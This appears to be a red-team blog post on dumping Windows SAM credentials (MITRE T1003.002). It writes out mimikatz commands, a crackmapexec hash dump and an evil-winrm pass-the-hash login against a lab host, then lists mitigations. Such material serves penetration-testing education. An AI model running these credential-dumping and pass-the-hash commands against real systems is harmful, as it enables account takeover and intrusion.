 ```yaml
---
title: Security Account Manager (SAM)
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Credential Access]
tags: []  
---
```


# MITRE

- ID : `T1003.002`
- Tactic : `Credential Access`
- Platforms: `Windows`

# Security Account Manager (SAM)

***SAM*** Is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer. Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored.

# Exploitation

## Mimikatz

We can dump sam credential using `mimikatz`. To do that, we need to download or transfer mimikatz to our target system(windows), then execute it `./mimikatz.exe`. After executing mimikatz, we will elevate our privilege to `nt authority` by executing `token::elevate`. With our privilege elevated, we can dump sam credential by executing `lsadump::sam`, this will provide us with credentials stored in sam.


![sam](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredsam1.png)

In the above image, we were able to obtain password hash of local administrator.

## CrackMapExec

We can dump sam credential with `crackmapexec` by executing 

```bash
crackmapexec smb 10.42.0.10 -u Administrator -p Password@123 --sam

```

![sam](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredsam2.png)

In the above image, we were able to obtain password hash of sam database.

## Access With Evil-Winrm

With the help of `evil-winrm`, we can use the password hash to get access to our target system.

```bash
evil-winrm -i 10.42.0.10 -u Administrator -H a29f7623fd11550def0192de9246f446b

```

![sam](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredsam3.png)

The above image shows we logged in as Administrator.

# Mitigations

- Consider disabling or restricting NTLM.
- Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- Do not put user or admin domain accounts in the local administrator groups across systems unless they are tightly controlled.
- Limit credential overlap across accounts and systems by training users and administrators not to use the same password for multiple accounts.

# References

- [https://attack.mitre.org/techniques/T1003/002/](https://attack.mitre.org/techniques/T1003/002/)
- [https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-sam](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-sam)
- [https://book.hacktricks.xyz/windows-hardening/stealing-credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)
- [https://atomicredteam.io/credential-access/T1003.002/](https://atomicredteam.io/credential-access/T1003.002/)
